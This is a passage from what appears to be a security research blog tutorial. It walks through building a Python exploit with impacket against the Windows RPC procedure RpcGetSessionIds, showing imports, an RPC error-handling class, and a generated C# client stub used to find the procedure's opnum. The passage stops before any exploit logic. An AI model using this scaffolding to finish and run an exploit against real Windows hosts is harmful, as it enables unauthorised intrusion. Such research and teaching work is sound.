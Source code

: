 ```python
import sys
import argparse

from impacket import system_errors
from impacket.dcerpc.v5 import transport
from impacket.dcerpc.v5.ndr import NDRCALL, NDRSTRUCT
from impacket.dcerpc.v5.dtypes import UUID, ULONG, WSTR, DWORD, NULL, BOOL, UCHAR, PCHAR, RPC_SID, LPWSTR
from impacket.dcerpc.v5.rpcrt import DCERPCException, RPC_C_AUTHN_WINNT, RPC_C_AUTHN_LEVEL_PKT_PRIVACY
from impacket.uuid import uuidtup_to_bin
```

Next, we will make a class that handles RPC exceptions. This is a very general class that is obtained in most of the Python scripts that make use of impacket RPC. This will format any RPC errors into clear error messages for debugging.

```python
class DCERPCSessionError(DCERPCException):
    def __init__(self, error_string=None, error_code=None, packet=None):
        DCERPCException.__init__(self, error_string, error_code, packet)

    def __str__( self ):
        key = self.error_code
        if key in system_errors.ERROR_MESSAGES:
            error_msg_short = system_errors.ERROR_MESSAGES[key][0]
            error_msg_verbose = system_errors.ERROR_MESSAGES[key][1]
            return 'SessionError: code: 0x%x - %s - %s' % (self.error_code, error_msg_short, error_msg_verbose)
        else:
            return 'SessionError: unknown error code: 0x%x' % self.error_code
```

Next, we will need the opnum (operation number) for the vulnerable procedure `RpcGetSessionIds`. If you are lucky, this is documented by Microsoft, [which it is](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/922264ed-0a2d-441f-a71c-2d3ffa975814) in this case. The opnum is 8. This is the number for the specific procedure. But if you are not so lucky, you can use `Format-RpcClient` from the NtObjectManager PowerShell module as explained in the [PowerShell chapter of this blog post](#powershell). This will give you the C# source code of the client, including the procedures:
```c#
public int RpcGetSessionIds(NtCoreLib.Ndr.Marshal.NdrEnum16 p0, int p1, out int[] p2, out int p3)
{
    _Marshal_Helper @__m = new _Marshal_Helper(CreateMarshalBuffer());
    @__m.WriteEnum16(p0);
    @__m.WriteInt32(p1);
    _Unmarshal_Helper @__u = SendReceive(8, @__m);
    try
    {
        p2 = @__u.ReadReferent<int[]>(new System.Func<int[]>(@__u.Read_16), false);
        p3 = @__u.ReadInt32();
        return @__u.ReadInt32();
    }
    finally
    {
        @__u.Dispose();
    }
} 
```
The `_Unmarshal_Helper @__u = SendReceive(8, @__m);` line (6) here includes the opnum (8). Back to the Python exploit, we create a section for the RPC call and provide its structure. We will create a structure for the RPC session input and the response. We will also create a structure for the call itself, both input and output that use the RPC session classes.
